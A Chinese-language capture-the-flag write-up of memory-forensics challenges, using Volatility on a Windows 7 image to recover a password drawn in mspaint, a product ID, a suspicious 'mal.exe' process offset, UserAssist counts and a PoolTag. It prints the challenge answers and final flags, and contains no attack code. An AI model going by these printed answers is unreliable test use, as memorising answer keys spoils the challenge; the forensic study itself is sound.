

#### 第二问

> mrl64很喜欢用Windows自带的画图软件画画，这次他情不自禁地把pass2也给画上去了，但是他还没关掉画图软件就去吃饭了。那么你看到pass2了吗？

画图软件的进程名称是mspaint.exe

```
# python2 vol.py -f /root/桌面/chall.raw --profile=Win7SP1x64 pslist

Offset(V)          Name                    PID   PPID   Thds     Hnds   Sess  Wow64 Start                          Exit
0xfffffa800429c7b0 mspaint.exe            2248   2372      6      126      1      0 2025-01-25 07:54:15 UTC+0000
```

dump下来

```
# python2 vol.py -f /root/桌面/chall.raw --profile=Win7SP1x64 memdump -p 2248  -D ../             
Volatility Foundation Volatility Framework 2.6.1
************************************************************************
Writing mspaint.exe [  2248] to 2248.dmp
```

后缀改为.data，用GIMP打开



> 宽高是猜测常见屏幕分辨率为1280x720，在此基础上先调整偏移到能够出现明显可读内容后微调得到的

垂直翻转一下



得到答案：`OHHHH_y0u_c4n_s3e_MY_P@ss2`

#### 第三问

> 你知道mrl64电脑的产品ID是什么吗？

在 Windows 系统中，**产品ID**（Product ID）通常存储在注册表的以下路径中：

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
```

打印注册表配置单元列表

```
# python2 vol.py  -f /root/桌面/chall.raw --profile=Win7SP1x64 hivelist     

Volatility Foundation Volatility Framework 2.6.1
Virtual            Physical           Name
------------------ ------------------ ----
0xfffff8a001bfd410 0x000000005d48c410 \??\C:\System Volume Information\Syscache.hve
0xfffff8a00610a010 0x00000000168ab010 \SystemRoot\System32\Config\DEFAULT
0xfffff8a00000f010 0x000000002c132010 [no name]
0xfffff8a000024010 0x000000002c43d010 \REGISTRY\MACHINE\SYSTEM
0xfffff8a000053010 0x000000002c26c010 \REGISTRY\MACHINE\HARDWARE
0xfffff8a0005a9010 0x0000000025be2010 \Device\HarddiskVolume1\Boot\BCD
0xfffff8a0005be010 0x0000000025da7010 \SystemRoot\System32\Config\SOFTWARE
0xfffff8a000d1f010 0x0000000072cdb010 \SystemRoot\System32\Config\SECURITY
0xfffff8a000d6f410 0x000000007b700410 \SystemRoot\System32\Config\SAM
0xfffff8a000e41010 0x0000000050fa8010 \??\C:\Windows\ServiceProfiles\NetworkService\NTUSER.DAT
0xfffff8a000ed5010 0x000000002ddfe010 \??\C:\Windows\ServiceProfiles\LocalService\NTUSER.DAT
0xfffff8a0011fe010 0x000000000bfa2010 \??\C:\Users\l0v3Miku\AppData\Local\Microsoft\Windows\UsrClass.dat
0xfffff8a0011ff410 0x000000000c1a1410 \??\C:\Users\l0v3Miku
tuser.dat
```

产品id在SOFTWARE中，dump下来

建议用注册表查看器打开注册表，防止误触破坏本地环境（这里用的WRR）



其实vol也能直接读取

```
# python2 vol.py  -f /root/桌面/chall.raw --profile=Win7SP1x64 printkey  -K "Microsoft\Windows NT\CurrentVersion"

Volatility Foundation Volatility Framework 2.6.1
Legend: (S) = Stable   (V) = Volatile

----------------------------
Registry: \SystemRoot\System32\Config\SOFTWARE
Key name: CurrentVersion (S)
Last updated: 2025-01-25 05:48:00 UTC+0000

Subkeys:
  (S) AdaptiveDisplayBrightness
  (S) AeDebug
  (S) AppCompatFlags
  (S) ASR
  (S) Audit
  (S) Compatibility32
  (S) Console
  (S) DefaultProductKey
  (S) DiskDiagnostics
  (S) drivers.desc
  (S) Drivers32
  (S) EMDMgmt
  (S) Event Viewer
  (S) Font Drivers
  (S) Font Management
  (S) FontDPI
  (S) FontLink
  (S) FontMapper
  (S) Fonts
  (S) FontSubstitutes
  (S) GRE_Initialize
  (S) ICM
  (S) Image File Execution Options
  (S) IniFileMapping
  (S) InstalledFeatures
  (S) KnownFunctionTableDlls
  (S) KnownManagedDebuggingDlls
  (S) LanguagePack
  (S) MCI Extensions
  (S) MCI32
  (S) MiniDumpAuxiliaryDlls
  (S) Multimedia
  (S) NetworkCards
  (S) NetworkList
  (S) NvCache
  (S) OpenGLDrivers
  (S) PeerDist
  (S) PeerNet
  (S) Perflib
  (S) Ports
  (S) Prefetcher
  (S) ProfileList
  (S) ProfileLoader
  (S) ProfileNotification
  (S) related.desc
  (S) Schedule
  (S) setup
  (S) SoftwareProtectionPlatform
  (S) SPP
  (S) Superfetch
  (S) Svchost
  (S) SystemRestore
  (S) Time Zones
  (S) Tracing
  (S) Userinstallable.drivers
  (S) WbemPerf
  (S) Windows
  (S) Winlogon
  (S) Winsat
  (S) WinSATAPI

Values:
REG_SZ        CurrentVersion  : (S) 6.1
REG_SZ        CurrentBuild    : (S) 7601
REG_SZ        SoftwareType    : (S) System
REG_SZ        CurrentType     : (S) Multiprocessor Free
REG_DWORD     InstallDate     : (S) 1737783119
REG_SZ        RegisteredOrganization : (S) 
REG_SZ        RegisteredOwner : (S) Windows \u7528\u6237
REG_SZ        SystemRoot      : (S) C:\Windows
REG_SZ        InstallationType : (S) Client
REG_SZ        EditionID       : (S) Professional
REG_SZ        ProductName     : (S) Windows 7 Professional
REG_SZ        ProductId       : (S) 00371-220-0367543-86165
REG_BINARY    DigitalProductId : (S) 
0x00000000  a4 00 00 00 03 00 00 00 30 30 33 37 31 2d 32 32   ........00371-22
0x00000010  30 2d 30 33 36 37 35 34 33 2d 38 36 31 36 35 00   0-0367543-86165.
0x00000020  ac 00 00 00 58 31 35 2d 33 39 30 30 39 00 00 00   ....X15-39009...
0x00000030  00 00 00 00 70 7f cf 6a 87 92 bc 7b ff 6a 75 c7   ....p..j...{.ju.
0x00000040  ac 3f 04 00 00 00 00 00 d7 e7 94 67 25 70 8d b4   .?.........g%p..
0x00000050  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000060  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000070  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000080  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000090  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000000a0  fc c6 e4 b7                                       ....
REG_BINARY    DigitalProductId4 : (S) 
0x00000000  f8 04 00 00 04 00 00 00 30 00 30 00 33 00 37 00   ........0.0.3.7.
0x00000010  31 00 2d 00 30 00 30 00 31 00 37 00 32 00 2d 00   1.-.0.0.1.7.2.-.
0x00000020  32 00 32 00 30 00 2d 00 30 00 33 00 36 00 37 00   2.2.0.-.0.3.6.7.
0x00000030  35 00 34 00 2d 00 30 00 30 00 2d 00 32 00 30 00   5.4.-.0.0.-.2.0.
0x00000040  35 00 32 00 2d 00 37 00 36 00 30 00 31 00 2e 00   5.2.-.7.6.0.1...
0x00000050  30 00 30 00 30 00 30 00 2d 00 30 00 32 00 35 00   0.0.0.0.-.0.2.5.
0x00000060  32 00 30 00 32 00 35 00 00 00 00 00 00 00 00 00   2.0.2.5.........
0x00000070  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000080  00 00 00 00 00 00 00 00 37 00 37 00 30 00 62 00   ........7.7.0.b.
0x00000090  63 00 32 00 37 00 31 00 2d 00 38 00 64 00 63 00   c.2.7.1.-.8.d.c.
0x000000a0  31 00 2d 00 34 00 36 00 37 00 64 00 2d 00 62 00   1.-.4.6.7.d.-.b.
0x000000b0  35 00 37 00 34 00 2d 00 37 00 33 00 63 00 62 00   5.7.4.-.7.3.c.b.
0x000000c0  61 00 63 00 62 00 65 00 63 00 63 00 64 00 31 00   a.c.b.e.c.c.d.1.
0x000000d0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000000e0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000000f0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000100  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000110  00 00 00 00 00 00 00 00 50 00 72 00 6f 00 66 00   ........P.r.o.f.
0x00000120  65 00 73 00 73 00 69 00 6f 00 6e 00 61 00 6c 00   e.s.s.i.o.n.a.l.
0x00000130  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000140  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000150  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000160  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000170  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000180  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000190  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000001a0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000001b0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000001c0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000001d0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000001e0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000001f0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000200  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000210  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000220  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000230  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000240  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000250  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000260  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000270  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000280  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000290  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000002a0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000002b0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000002c0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000002d0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000002e0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000002f0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000300  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000310  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000320  00 00 00 00 00 00 00 00 70 7f cf 6a 87 92 bc 7b   ........p..j...{
0x00000330  ff 6a 75 c7 ac 3f 04 00 ff 3d b8 e4 1a 7f 61 95   .ju..?...=....a.
0x00000340  54 19 2d 28 d4 04 71 87 ae f9 c2 01 37 bb 89 68   T.-(..q.....7..h
0x00000350  3e 9c 95 87 90 37 b0 6f 82 26 38 b6 49 01 31 00   >....7.o.&8.I.1.
0x00000360  d8 bb 21 e8 8d fa f0 10 e6 66 f5 4e da 2b 1e ab   ..!......f.N.+..
0x00000370  3e ff 99 b0 bf cd 91 e7 58 00 31 00 35 00 2d 00   >.......X.1.5.-.
0x00000380  33 00 39 00 30 00 30 00 39 00 00 00 00 00 00 00   3.9.0.0.9.......
0x00000390  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000003a0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000003b0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000003c0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000003d0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000003e0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000003f0  00 00 00 00 00 00 00 00 52 00 65 00 74 00 61 00   ........R.e.t.a.
0x00000400  69 00 6c 00 00 00 00 00 00 00 00 00 00 00 00 00   i.l.............
0x00000410  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000420  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000430  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000440  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000450  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000460  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000470  00 00 00 00 00 00 00 00 4d 00 53 00 44 00 4e 00   ........M.S.D.N.
0x00000480  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000490  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000004a0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000004b0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000004c0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000004d0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000004e0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x000004f0  00 00 00 00 00 00 00 00                           ........
REG_SZ        CurrentBuildNumber : (S) 7601
REG_SZ        BuildLab        : (S) 7601.win7sp1_ldr_escrow.190220-1800
REG_SZ        BuildLabEx      : (S) 7601.24384.amd64fre.win7sp1_ldr_escrow.190220-1800
REG_SZ        BuildGUID       : (S) c599c6ee-efe9-4133-9aab-7435685d54b7
REG_SZ        CSDBuildNumber  : (S) 1130
REG_SZ        PathName        : (S) C:\Windows
REG_SZ        CSDVersion      : (S) Service Pack 1
```

得到答案：`00371-220-0367543-86165`

结合三问答案贴入mymen-flag1.py，运行得到flag

NSSCTF{101e5799-55e8-42c9-b58a-5f1d30039126}

### mymem-2

有三问

* *问题1：mrl64的电脑里似乎有一个奇怪的进程正在运行，这个进程的物理偏移值是多少？*
* *问题2： 这个奇怪的进程总共运行了多少次？其窗口被作为焦点总共多长时间？*
* *问题3：这个奇怪的进程的PoolTag是什么？*

#### 第一问

> mrl64的电脑里似乎有一个奇怪的进程正在运行，这个进程的物理偏移值是多少？

获取进程

```
python2 vol.py  -f /root/桌面/chall.raw --profile=Win7SP1x64 pslist > ../pslist.txt
```

提取进程名

```
grep -oP '0x[0-9a-f]+ \K\S+' ../pslist.txt | sort | uniq
```

利用ai识别可疑进程



那么显然是mal.exe

pslist看到的是虚拟偏移，这里问的是物理偏移，因此需要用psxview查看

```
# python2 vol.py -f /root/桌面/chall.raw --profile=Win7SP1x64 psxview | grep "mal.exe"

Volatility Foundation Volatility Framework 2.6.1
Offset(P)          Name                    PID pslist psscan thrdproc pspcid csrss session deskthrd ExitTime
------------------ -------------------- ------ ------ ------ -------- ------ ----- ------- -------- --------
0x000000007fca3820 mal.exe                2764 True   False  False    True   True  True    False
```

得到答案：`0x000000007fca3820`

#### 第二问

> 这个奇怪的进程总共运行了多少次？其窗口被作为焦点总共多长时间？

可以使用userassist查询

> `UserAssist` 是 Windows 操作系统中的一个功能，用于跟踪用户运行的应用程序和程序的频率、时间戳等信息。
>
> 在取证和恶意软件分析中，`UserAssist` 是一个非常有用的信息来源，因为它可以揭示用户运行过的程序及其运行时间，即使这些程序已经被删除或隐藏。

```
# python2 vol.py -f /root/桌面/chall.raw --profile=Win7SP1x64 userassist

REG_BINARY    %windir%\mal.exe : 
Count:          2
Focus Count:    0
Time Focused:   0:00:00.546000
Last updated:   2025-01-25 07:58:43 UTC+0000
Raw Data:
0x00000000  00 00 00 00 02 00 00 00 00 00 00 00 2e 00 00 00   ................
0x00000010  00 00 80 bf 00 00 80 bf 00 00 80 bf 00 00 80 bf   ................
0x00000020  00 00 80 bf 00 00 80 bf 00 00 80 bf 00 00 80 bf   ................
0x00000030  00 00 80 bf 00 00 80 bf ff ff ff ff c0 25 53 f4   .............%S.
0x00000040  fe 6e db 01 00 00 00 00                           .n......
```

得到答案：`2_0:00:00.546000`

#### 第三问

> 这个奇怪的进程的PoolTag是什么？

相关知识参考：<https://medium.com/@sky__/memory-udom-x-m455-ctf-2023-writeup-a97e573f583d>

使用volshell

```
python2 vol.py -f /root/桌面/chall.raw --profile=Win7SP1x64 volshell
```

获取PoolTag

```
>>> dt("_POOL_HEADER",0x000000007fca3820,space=addrspace().base)
[_POOL_HEADER _POOL_HEADER] @ 0x7FCA3820
0x0   : BlockSize                      88
0x0   : PoolIndex                      0
0x0   : PoolType                       0
0x0   : PreviousSize                   3
0x0   : Ulong1                         5767171
0x4   : PoolTag                        0
0x8   : AllocatorBackTraceIndex        14376
0x8   : ProcessBilled                  18446738026423531560
0xa   : PoolTagHash                    426
```

显示PoolTag为0，是因为我们需要返回内存地址以获得正确的Pooltag位置



Page is structured of:

* `pool_header` with size of 0x10 byte.
* `Optional_header` size is different from one to another.
* `object_header` with size 0x30 bytes.
* `object_body` with size of the object type itself.

参照上图，需要通过从地址中减去0x30来获得optional\_header的值

```
>>> dt( "_OBJECT_HEADER" , 0x000000007fca3820-0x30 , space=addrspace().base)
[_OBJECT_HEADER _OBJECT_HEADER] @ 0x7FCA37F0
0x0   : PointerCount                   14
0x8   : HandleCount                    2
0x8   : NextToFree                     2
0x10  : Lock                           2143959040
0x18  : TypeIndex                      7
0x19  : TraceFlags                     0
0x1a  : InfoMask                       8
0x1b  : Flags                          0
0x20  : ObjectCreateInfo               18446735277683629632
0x20  : QuotaBlockCharged              18446735277683629632
0x28  : SecurityDescriptor             18446735964844357218
0x30  : Body                           2143959072
```

InfoMask值对应于Optional Header值，如果它是0x8，则使用的可选报头是\_OBSENTH\_HEADER\_QUOTA\_INFO

并且根据下面的表，其大小为32字节的`_OBADER_HEADER_QUOTA_INFO`转换为0x20



但是它还没有找到一个实际的PoolTag，我们需要减去0x10来说明对齐或其他内核级元数据，以确保结构在内存中正确对齐，从而能够正确地定位到`POOL_HEADER`

现在可以知道pool\_header的初始指针是通过减去-0x60得到的（- 0x30 - 0x20 - 0x10）

```
>>> dt( "_POOL_HEADER" , 0x000000007fca3820-0x60 , space=addrspace().base)
[_POOL_HEADER _POOL_HEADER] @ 0x7FCA37C0
0x0   : BlockSize                      86
0x0   : PoolIndex                      0
0x0   : PoolType                       2
0x0   : PreviousSize                   3
0x0   : Ulong1                         39190531
0x4   : PoolTag                        3815731792
0x8   : AllocatorBackTraceIndex        0
0x8   : ProcessBilled                  0
0xa   : PoolTagHash                    0
```

此处这里的pooltag还不是ascii形式，将其转化为hex，并且注意小端序存储。

```
>>> import binascii
>>> hex(3815731792)
'0xe36f7250'
>>> binascii.unhexlify('e36f7250')[::-1]
b'Pro\xe3'
```

得到答案：`Pro\xe3`

结合三问答案贴入mymem-flag2.py，运行得到flag

NSSCTF{fc3778a7-0eed-4735-8a31-450635f075f4}
